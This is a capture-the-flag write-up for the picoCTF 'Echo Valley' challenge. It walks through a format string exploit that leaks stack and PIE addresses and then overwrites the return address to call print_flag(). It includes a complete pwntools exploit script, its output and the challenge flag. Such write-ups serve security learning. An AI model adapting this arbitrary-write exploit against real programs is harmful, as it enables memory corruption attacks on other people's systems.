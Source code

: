 # Echo Valley - Format String Exploitation

## Challenge Overview

**Name:** Echo Valley  
**Points:** 300  
**Author:** Shuailin Pan (LeConjuror)

### Description

The Echo Valley challenge presents a simple program that echoes back whatever is entered. The goal is to exploit the program to make it return the flag.

We are provided with the following files:

- `valley.c` (source code)
    
- `valley` (binary executable)
    

A remote instance is hosted at:

```
nc shape-facility.picoctf.net 54701
```

## Initial Analysis

Running the binary locally:

```
./valley
Welcome to the Echo Valley, Try Shouting:
fede
You heard in the distance: fede
```

The program takes input and echoes it back. However, deeper analysis suggests that it may have a format string vulnerability.

## Exploitation Plan

The attack exploits a format string vulnerability that allows arbitrary memory writes, modifying the return address to call `print_flag()`.

1. **Leak Memory Addresses:**
    
    - Extract stack values using format specifiers (`%p`) to leak the return pointer.
        
    - Identify the location of `main()` in the executable memory.
        
2. **Calculate Addresses:**
    
    - Determine the base address of the PIE (Position Independent Executable) binary.
        
    - Compute the stack return address location.
        
    - Locate `print_flag()` in memory.
        
3. **Overwrite Return Address:**
    
    - Use format string exploit (`%n`) to overwrite the return address with `print_flag()`.
        
    - Execute the exploit and retrieve the flag.
        

## Exploit Script (solv.py)

```
from pwn import *

exe = context.binary = ELF('./valley', checksec=False)
INPUT_OFFSET = 8
MAIN_OFFSET = 27
RBP_OFFSET = 20
RETURN_ADDRESS_OFFSET = 21
RBP_POINTS_TO_OFFSET = 22
HOST = 'shape-facility.picoctf.net'
PORT = 54701

def get_proc():
    return remote(HOST, PORT) if args.REMOTE else process()

def arb_write_8(addr, data):
    payload = f"%{data}c%8$hhn".encode() if data != 0 else b"%8$hhn"
    padding = b'A' * (16 - len(payload))
    return payload + padding + p64(addr)

def arb_write_64(addr, data):
    to_write = [(data >> (8 * i)) & 0xff for i in range(8)]
    for i, val in enumerate(to_write):
        payload = arb_write_8(addr + i, val)
        p.sendline(payload)
        p.recvuntil(b'distance: ')

p = get_proc()
p.recvline()
p.sendline(f"%{RBP_OFFSET}$p.%{MAIN_OFFSET}$p".encode())
p.recvuntil(b'distance: ')
leaked_rbp, leaked_main = [int(x, 16) for x in p.recvline().strip().decode().split('.')]

exe.address = leaked_main - exe.symbols['main']
stack_address = leaked_rbp - 8

arb_write_64(stack_address, exe.sym['print_flag'])
p.sendline(b'exit')
p.interactive()
```

## Execution & Flag Retrieval

Local test:

```
python3 solv.py
[*] Leaked Main: 7fff0632ea18
[*] Leaked RBP: 7fff0632e900
[*] Overwriting return address with print_flag
[*] Switching to interactive mode
```

Remote execution:
![[Pasted image 20250315220457.png]]

```
python3 solv.py REMOTE=1
[+] Opening connection to shape-facility.picoctf.net on port 54701: Done
[*] Leaked Main: 55a2d8d2c401
[*] Overwriting return address with print_flag
Congrats! Here is your flag: picoctf{f1ckl3_f0rmat_f1asc0}
```

## Conclusion

By leveraging a format string vulnerability, we successfully redirected the program execution to `print_flag()`, obtaining the flag:

```
picoctf{f1ckl3_f0rmat_f1asc0}
```

This challenge demonstrates the power of format string exploits in memory corruption attacks.